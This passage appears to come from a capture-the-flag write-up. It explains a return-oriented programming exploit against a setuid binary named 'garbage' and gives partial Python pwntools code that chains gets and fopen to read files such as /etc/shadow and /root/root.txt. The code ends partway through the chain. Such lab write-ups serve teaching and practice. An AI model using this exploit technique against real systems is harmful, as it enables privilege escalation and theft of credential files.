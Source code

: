 These gadgets will help us populate function arguments. The x64 function-calling convention for the first three arguments is: 1st argument (`rdi`), 2nd argument (`rsi`), and 3rd argument (`rdx`).

The game plan is this: we make use of PLT functions (because their address don't change) — `gets(3)`, `fopen(3)`, `read(2)`, and `puts(3)` to get from `stdin` the full path of the file that we want to read and display the content of that file in `stdout`. And since `garbage` is a `setuid` executable, we can read sensitive files such as `/etc/shadow` and`/root/root.txt`.

Enough of introduction, here's the exploit code in Python. Further explanation can be found in the code below.

```python
'''
# ROPgadget --binary garbage
0x0000000000401012 : add rsp, 8 ; ret
0x000000000040179b : pop rdi ; ret
0x0000000000401799 : pop rsi ; pop r15 ; ret
0x0000000000401016 : ret
'''

from pwn import *

# front matter
offset   = "A" * 136
pathname = 0x404100  # somewhere in .bss
mode     = 0x404120  # somewhere in .bss
ops      = 0x404140  # somewhere in .bss
buf      = 0x404200  # somewhere in .bss
payload  = ''

# functions
exit   = 0x401160
fopen  = 0x401130
gets   = 0x401100
puts   = 0x401050
read   = 0x4010c0

# gadgets
pop_rdi_ret = 0x40179b
pop_rsi_pop_ret = 0x401799
ret = 0x401016
skip = 0x401012

# exploit format
payload += offset

# get(pathname) - file we want to open
payload += p64(pop_rdi_ret)
payload += p64(pathname)
payload += p64(gets)
payload += p64(ret)

# get(mode) - r for reading, w for writing, etc.
payload += p64(pop_rdi_ret)
payload += p64(mode)
payload += p64(gets)
payload += p64(ret)

# fopen(pathname, mode)
payload += p64(pop_rsi_pop_ret)
payload += p64(mode)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(pathname)
payload += p64(fopen)
```